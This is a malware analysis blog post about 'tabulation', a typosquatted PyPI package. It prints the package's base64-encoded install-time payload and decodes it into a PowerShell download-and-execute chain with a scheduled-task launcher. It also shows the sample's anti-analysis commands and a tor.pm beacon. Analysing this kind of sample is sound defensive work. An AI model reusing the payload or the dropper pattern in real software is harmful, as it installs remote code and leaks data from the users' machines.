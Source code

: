 ```yaml
---
title: "Dearmored"
date: 2023-07-12T14:05:32-05:00
draft: false
series: Malware Analysis
tags: ['python','malware','deobfuscation']
description: "Looking deeper into PyArmor obfuscated malware utilizing tools such as Process Monitor and Wireshark, and hooking third party libraries to gain access to web requests and encrypted data."
summary: "Looking deeper into PyArmor obfuscated malware utilizing tools such as Process Monitor and Wireshark, and hooking third party libraries to gain access to web requests and encrypted data."
---
```


Before I begin, a gentle shoutout to Lockness Ko, our dynamic analysis specialist, for his assistance with the dynamic analysis portion of this particular malicious package.

On the 26th of June, a Python package named **tabulation** came across our malware feed. It displayed all the signs of being a malicious package-- executing a base64 string within the setup.py portion of the package, and squatting a fairly well known package, **tabulate** by utilizing it's README and Github pages in the metadata. As we do with all packages that are suspected to be malicious, we began an analysis. 

## The Payload

As mentioned, the payload contained a base64 encoded string that would execute upon the installation of the package. Nothing shockingly out of the ordinary or ground breaking here on the malware front, this is a common tactic, it's easy to detect, and this particular version was easy enough to reverse as well. 

```python
exec(base64.b64decode("aW1wb3J0IHN1YnByb2Nlc3MsIG9zCmRlZiByKGMpOiA\
KICAgIHJlc3VsdCA9IHN1YnByb2Nlc3MuUG9wZW4oYywgc2hlbGw9VHJ1ZSwgc3Rka\
W49c3VicHJvY2Vzcy5QSVBFLCBzdGRvdXQ9c3VicHJvY2Vzcy5QSVBFLCBzdGRlcnI\
9c3VicHJvY2Vzcy5TVERPVVQsIGNsb3NlX2Zkcz1UcnVlKQogICAgb3V0cHV0ID0gc\
mVzdWx0LnN0ZG91dC5yZWFkKCkKZGVmIHIyKGMpOgogICAgc3VicHJvY2Vzcy5Qb3B\
lbihjLCBzaGVsbD1UcnVlLCBzdGRpbj1zdWJwcm9jZXNzLlBJUEUsIHN0ZG91dD1zd\
WJwcm9jZXNzLlBJUEUsIHN0ZGVycj1zdWJwcm9jZXNzLlNURE9VVCwgY2xvc2VfZmR\
zPVRydWUpCmlmIG9zLm5hbWUgPT0gIm50IjoKICAgIGlmIG5vdCBvcy5wYXRoLmV4a\
XN0cyhyIkM6L1Byb2dyYW1EYXRhL1VwZGF0ZXIiKToKICAgICAgICByKHIicG93ZXJ\
zaGVsbCAtY29tbWFuZCAkUHJvZ3Jlc3NQcmVmZXJlbmNlID0gJ1NpbGVudGx5Q29ud\
GludWUnOyAkRXJyb3JBY3Rpb25QcmVmZXJlbmNlID0gJ1NpbGVudGx5Q29udGludWU\
nOyBJbnZva2UtV2ViUmVxdWVzdCAtVXNlQmFzaWNQYXJzaW5nIC1VcmkgaHR0cHM6L\
y90cmFuc2Zlci5zaC9UVVVwUXJVdTlkL0luc3RhbGwuemlwIC1PdXRGaWxlICRlbnY\
6dG1wL2luc3QuemlwOyBFeHBhbmQtQXJjaGl2ZSAtRm9yY2UgLUxpdGVyYWxQYXRoI\
CRlbnY6dG1wL2luc3QuemlwIC1EZXN0aW5hdGlvblBhdGggQzovUHJvZ3JhbURhdGE\
7IFJlbW92ZS1JdGVtICRlbnY6dG1wL2luc3QuemlwIikKICAgICAgICBmcm9tIGRhd\
GV0aW1lIGltcG9ydCBkYXRldGltZSwgdGltZWRlbHRhOyB0ID0gKGRhdGV0aW1lLm5\
vdygpICsgdGltZWRlbHRhKG1pbnV0ZXM9MSkpLnN0cmZ0aW1lKCclSDolTScpCiAgI\
CAgICAgcjIoZidzY2h0YXNrcyAvQ3JlYXRlIC9TQyBPTkNFIC9TVCB7dH0gL1ROICJ\
VcGRhdGVyIiAvVFIgIkM6XFByb2dyYW1EYXRhXEluc3RhbGxcaW52aXMudmJzIicp"))
```

So let's unpack this a bit. As with most of these, you can simply swap the `exec` for a `print` and out will pop the 'obfuscated' payload. 

```python
import subprocess, os
def r(c): 
    result = subprocess.Popen(c, shell=True, stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.STDOUT, close_fds=True)
    output = result.stdout.read()
def r2(c):
    subprocess.Popen(c, shell=True, stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.STDOUT, close_fds=True)
if os.name == "nt":
    if not os.path.exists(r"C:/ProgramData/Updater"):
        r(r"powershell -command $ProgressPreference = 'SilentlyContinue'; $ErrorActionPreference = 'SilentlyContinue'; Invoke-WebRequest -UseBasicParsing -Uri xxxx://transfer.sh/xxxx/Install.zip -OutFile $env:tmp/inst.zip; Expand-Archive -Force -LiteralPath $env:tmp/inst.zip -DestinationPath C:/ProgramData; Remove-Item $env:tmp/inst.zip")
        from datetime import datetime, timedelta; t = (datetime.now() + timedelta(minutes=1)).strftime('%H:%M')
        r2(f'schtasks /Create /SC ONCE /ST {t} /TN "Updater" /TR "C:\ProgramData\Install\invis.vbs"')
```

Now this is a little more exciting. As we can see, we use Powershell's `Invoke-WebRequest` to quietly curl down an **install.zip** file from transfer.sh and to unpack it into a known location. It then invokes the Windows Task Scheduler to execute **invis.vbs** a minute after the subprocess is executed. Presumably, this is to allow for the file to download and decompress. But what exactly do these files contain, and what is invis.vbs doing? 

```vb
Set oShell = CreateObject ("Wscript.Shell") 
Dim strArgs
strArgs = "cmd /c pythonw C:\ProgramData\Install\inst.pyw"
oShell.Run strArgs, 0, false
```

This creates a WScript Shell, which invokes **inst.pyw**. We're now at Russian nesting dolls of staging. But bare with me, because this is where it gets interesting. As I said, the initial file dropped **installer.zip** was a ziparchive and decompressed during download. The file also contained the **pyarmor_runtime** and **inst.pyw** files. These, as you can likely glean by the name alone, are PyArmor obfuscated files. This presents a unique challenge, PyArmor unpackers are well documented running up to Python 3.10, but recent changes to the bytecode and opmaps in Python 3.11 have caused many of the ways these deobfuscators function to fail. And as anticipated, several off-the-shelf unpackers like Svenskithesource's [PyArmor-Unpacker](https://github.com/Svenskithesource/PyArmor-Unpacker) were ineffective at handling this new bytecode change.

## Dynamic Analysis

So with our static unpackers struggling to work through the PyArmor obfuscation, we shifted to dynamic analysis. I mentioned Lockness Ko earlier in the article; he was kind enough to lend a Dynamic Analysis sandbox for the next portion. We began as most dynamic analysis solutions do-- spinning up PCAP and packet sniffing software, turning on ProcMon and running the program. The first time we managed to get the program to run in the sandbox, Wireshark immediately died. A good indicator that we're dealing with something that's attempting to enumerate the virtual machine. We moved network monitoring out of the sandbox and tried again... 
And not much happened. We killed the process and pulled up ProcMon to see if there was something we were missing, but we weren't catching a whole lot. So in the spirit of seeing if this was some sort of delayed execution, we went ahead and ran the file one more time and let it sit for what felt like an eternity. And we waited. And we waited. And at last, we had something. ProcMon started firing off system events for enumeration of the current environment: 
```python
"10:09:44.5260407 PM","WScript.exe","3396","Process Create","C:\Windows\System32\cmd.exe","SUCCESS","PID: 4292, Command line: ""C:\Windows\System32\cmd.exe"" /c pythonw C:\ProgramData\Install\inst.pyw"
"10:09:45.6561948 PM","pythonw.exe","5020","Process Create","C:\Program Files\Python311\Scripts\pip.exe","SUCCESS","PID: 1188, Command line: pip install requests"
"10:09:52.1659818 PM","pythonw.exe","5020","Process Create","C:\Program Files\Python311\Scripts\pip.exe","SUCCESS","PID: 2064, Command line: pip install cryptography"
"10:10:07.6860549 PM","pythonw.exe","5020","Process Create","C:\Windows\System32\Wbem\wmic.exe","SUCCESS","PID: 1476, Command line: wmic process get name"
"10:10:08.4851339 PM","pythonw.exe","5020","Process Create","C:\Windows\system32\cmd.exe","SUCCESS","PID: 1436, Command line: C:\Windows\system32\cmd.exe /c ""taskkill /f /im wireshark.exe"""
"10:10:08.4951144 PM","pythonw.exe","5020","Process Create","C:\Windows\system32\cmd.exe","SUCCESS","PID: 4632, Command line: C:\Windows\system32\cmd.exe /c ""taskkill /f /im dumpcap.exe"""
"10:10:08.5035489 PM","pythonw.exe","5020","Process Create","C:\Windows\system32\cmd.exe","SUCCESS","PID: 3844, Command line: C:\Windows\system32\cmd.exe /c ""taskkill /f /im processhacker.exe"""
"10:10:08.5120777 PM","pythonw.exe","5020","Process Create","C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe","SUCCESS","PID: 1052, Command line: powershell.exe get-process | format-table mainwindowtitle"
```

Now I'd like to draw some attention to several lines here. 
`taskkill /f /im wireshark.exe` - The source of our dead Wireshark on the first run. 
`pip install requests` and `pip install cryptography` will be very important very soon. 
We can see the outbound beaconing in Wireshark, given that we've moved Wireshark outside of the virtual machine. We can see it calling to a **tor.pm** address in our PCAP's. Since we're not catching the events in process monitor, this must mean that ~~the call is coming from inside the house~~ the requests are being transmitted through Python. But what is this actually doing, what information is being communicated?

Well as previously mentioned, we saw **requests** and **cryptography** installed through subprocesses. So that gives us some good intuition about the kind of interface we might be dealing with for this information. Intuition dictated that hooking the **requests** POST API function might spill out the information we're looking for. So we did just that.

**requests/api.py**
```python
def post(url, data=None, json=None, **kwargs):
    with open("C:\Windows\Temp\post.txt", "a") as f:
        f.write(url, data, json, sep='\n')
    ...
```

Running this, as anticipated, caused any POSTs utilizing the Python Requests package to write themselves to a file. We went ahead and ran the script again and... 
```python
REQUEST
xxxx://xxxx.tor.pm/
{'1': 'gAAAAABkoRHTIO_HSkSBxDbFaarHWwX8T1qKIUgbuhaf0-294oY_TR1RuYFPVXYBkG5lQIKw2rRV7oPxL-CaKsiPerMKdwV5sUO1MEn3GZw3RToeSQXqvYo=', 
...}
```

And that's not shockingly helpful. However, we do have some excellent pretext for what this information might actually be! If you recall earlier, the **cryptography** package was installed during the execution of the malware. Fernet is a very common cryptography format used in Python, and more importantly, the `gAAAAAB`refers to a fairly fixed portion, the "fixed" timestamp. This allowed us to confirm that these were indeed Fernet encrypted payloads. For those unfamiliar with Fernet, it is a symmetric encryption algorithm utilizing a key. For our purposes, that is the brief of it. For those looking to read more, you can find a writeup on Fernet encryption in the [PYCA Cryptography documents](https://cryptography.io/en/latest/fernet/). Equipped with that information, we went ahead and enumerated the Cryptography package as well. Utilizing the same techniques we used in the requests modification, we hooked the `generate_key()` and `encrypt()` functions to also write their arguments to a file. So, for one final, time, we went ahead and ran the program, with all the appropriate functions hooked. And it worked perfectly! 

```python
========
model vbox harddisk  
==============
product  virtualbox  
==============
version  vbox- 1  
==============
name system idle process system  registrysmss.execsrss.exe  wininit.exeservices.exe  lsass.exe  svchost.exesvchost.exefontdrvhost.exe  svchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.exesvchost.execsrss.exe  winlogon.exe  fontdrvhost.exe  dwm.exe sihost.exe taskhostw.exe explorer.exe  shellexperiencehost.exeruntimebroker.exeruntimebroker.exeapplicationframehost.exe  svchost.exediscord.exediscord.exediscord.exediscord.exediscord.exediscord.exegooglecrashhandler.exe googlecrashhandler64.exe  procmon64.exe cmd.exe conhost.exepowershell.exechrome.exe chrome.exe chrome.exe chrome.exe chrome.exe chrome.exe chrome.exe chrome.exe cmd.exe conhost.exepythonw.exewmiprvse.exe  wmic.execonhost.exe
```

Quite underwhelmingly, this seems to enumerate running processes and user information and signal back to the server. There were no other signs of additional downloads or file drops.

## Summary

This is but one example of how we can effectively use some creative process hooking and know-how to cause cryptographic functions to spill their secrets when they're relying on external libraries and packages to do that transmission. Dynamic analysis can facilitate introspection into programs that might otherwise use heavy obfuscation, and Python's reputation as an interpreted language makes levying the base level libraries and infrastructure a breeze to enumerate obfuscated malware.
